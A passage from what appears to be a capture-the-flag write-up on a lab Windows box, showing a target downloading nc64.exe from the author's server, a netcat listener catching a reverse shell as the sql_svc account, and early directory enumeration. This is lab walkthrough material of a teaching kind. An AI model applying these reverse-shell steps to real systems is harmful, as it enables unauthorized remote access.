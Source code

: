 ![image-20240607155539209](/img/image-20240607155539209.png)

There’s no output here, but a request at my server is a good sign:

```
10.10.11.5 - - [07/Jun/2024 12:28:53] "GET /nc64.exe HTTP/1.1" 200 -

```

Doing a directory listing shows it’s there:

![image-20240607155626632](/img/image-20240607155626632.png)

I’ll trigger it to get a shell:

![image-20240607155708985](/img/image-20240607155708985.png)

It hangs, but at my listening `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.5 63819
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
freelancer\sql_svc

```

I’ll will also switch to PowerShell:

```

C:\WINDOWS\system32> powershell                       
Windows PowerShell                                                
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\WINDOWS\system32> 

```

I’ll note the intended path for this box was not to be able to get this shell, but rather do the enumeration through MSSQL, up through the next shell.

## Shell as mikasaAckerman

### Enumeration

#### Web

In the root of `C:`, there are two directories, `apps` and `nginx` that are non-standard:

```

PS C:\> ls

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/24/2024   7:30 PM                apps
d-----         6/3/2024  10:50 AM                nginx
d-----        5/28/2024  11:47 AM                PerfLogs
d-r---        5/28/2024   2:18 PM                Program Files
d-----        5/28/2024   2:18 PM                Program Files (x86)
d-----        5/27/2024   7:50 AM                temp
```